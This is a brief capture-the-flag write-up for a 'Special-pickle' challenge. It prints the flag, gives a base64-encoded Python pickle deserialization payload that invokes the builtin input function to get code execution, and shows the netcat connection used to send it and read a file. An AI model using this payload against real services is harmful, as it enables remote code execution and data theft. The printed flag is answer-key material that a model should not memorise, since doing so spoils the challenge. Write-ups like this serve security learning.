

# Special-pickle
- Flag: `ECSC{594ddf3e959cef9f0eb831094f52ee1ef007486605406029a8b36927a91acfb5}`
- Category: `misc`
- Points: `428`

## Summary
Remote code execution with pickle

## Proof of Solving
I found this gist (https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd) that is pretty much what we need except that os is blacklisted in our case and we will use input instead.

We get the base64 needed as payload: `Y19fYnVpbHRpbl9fCmlucHV0CnAwCihTJycKcDEKdHAyClJwMwou`

`$ nc 104.248.42.88 4445`
We enter the base64 from above, then we send the payload that will be executed by the input function. In our case a file read:

And we got the flag

